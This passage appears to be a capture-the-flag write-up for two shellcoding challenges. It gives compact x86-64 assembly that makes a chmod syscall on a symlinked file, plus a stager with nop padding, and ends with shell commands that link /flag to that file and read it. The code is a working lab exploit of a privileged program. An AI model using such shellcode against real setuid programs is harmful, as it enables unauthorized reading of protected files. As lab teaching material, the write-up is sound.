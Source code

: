 ## 13
Task: Reading 0xc bytes from stdin.
```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push 0x41
push rsp
pop rdi
mov al,0x5a
mov sil,0x4
syscall
```
## 14
Task: Reading 0x6 bytes from stdin.
```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push rax
pop rdi
push rdx
pop rsi
syscall

nop
nop
nop
nop
nop

nop
nop
nop
nop
nop

push 0x42
push rsp
pop rdi
mov al,0x5a
mov sil,0x4
syscall
```
```sh
ln -sf /flag A
cat A
```
